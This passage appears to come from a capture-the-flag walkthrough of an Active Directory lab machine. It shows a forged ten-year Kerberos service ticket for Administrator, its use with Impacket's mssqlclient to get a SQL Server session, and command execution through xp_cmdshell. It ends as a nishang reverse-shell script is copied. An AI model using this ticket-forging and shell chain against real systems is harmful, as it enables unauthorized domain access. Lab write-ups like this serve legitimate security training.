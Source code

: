 ```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ export KRB5CCNAME=Administrator.ccache
                                                                                                                     
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ klist
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@SCRM.LOCAL

Valid starting       Expires              Service principal
02/19/2025 07:41:36  02/17/2035 07:41:36  MSSQLSvc/dc1.scrm.local@SCRM.LOCAL
        renew until 02/17/2035 07:41:36

```
-10 year ticket <> easy to detect 10 years!!!!!!
-lets use the ticket
```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 mssqlclient.py dc1.scrm.local -k                                   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SCRM\administrator  dbo@master)> 

```

```bash
SQL (SCRM\administrator  dbo@master)> xp_cmdshell whoami
output        
-----------   
scrm\sqlsvc   

NULL          

```
-if didnt work use enable xp_cmdshell , because we are administrator
-lets get a reverse shell
```bash
┌──(pwn㉿kali)-[~/Scrambled]
└─$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 /home/pwn/Scrambled 

┌──(pwn㉿kali)-[~/Scrambled]
└─$ ls
hash.txt  Invoke-PowerShellTcpOneLine.ps1  ipconfig.jpg  user.txt

```

